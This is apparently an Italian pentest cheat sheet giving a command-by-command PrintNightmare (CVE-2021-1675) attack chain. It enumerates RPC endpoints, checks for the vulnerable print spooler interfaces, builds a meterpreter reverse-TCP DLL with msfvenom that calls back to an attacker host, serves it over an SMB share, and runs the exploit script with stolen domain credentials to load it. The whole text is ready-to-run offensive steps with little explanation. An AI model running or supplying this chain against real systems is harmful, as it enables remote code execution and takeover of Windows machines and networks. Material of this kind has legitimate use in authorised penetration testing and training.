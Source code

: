 ### **DUMP**
```bash
rpcdump.py @<IP> > rpc
```
### **PRINTNIGHTMARE VULN**
controllo
```bash
cat rpc | grep -E 'MS-RPRN|MS-PAR'
```
genero shell
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f dll > shell.dll
```
hosto un server smb
```bash
sudo smbserver.py share `pwd` -smb2support
```
exploito
```bash
python3 CVE-2021-1675.py <DOMAIN>/<USER>:'<PASS>'@<IP> '\\<TUO IP>\share\shell.dll'
```
